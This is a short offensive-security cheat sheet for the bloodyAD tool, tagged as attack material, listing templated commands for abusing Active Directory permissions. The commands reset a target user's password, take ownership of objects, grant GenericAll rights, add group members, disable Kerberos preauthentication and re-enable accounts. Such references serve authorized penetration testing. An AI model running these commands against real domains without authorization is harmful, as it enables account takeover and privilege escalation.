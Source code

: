 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## Set password
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' set password <target_user> '<new_passwd|Password123!>'
```

## Get writable
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' set owner '<object>' <our_user>
```

## Add GenericAll
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add genericAll '<object>' <our_user>
```

## Add group member
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add groupMember <group> <member>
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' add uac '<object>' -f DONT_REQ_PREAUTH
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd' remove uac 'account' -f ACCOUNTDISABLE
```
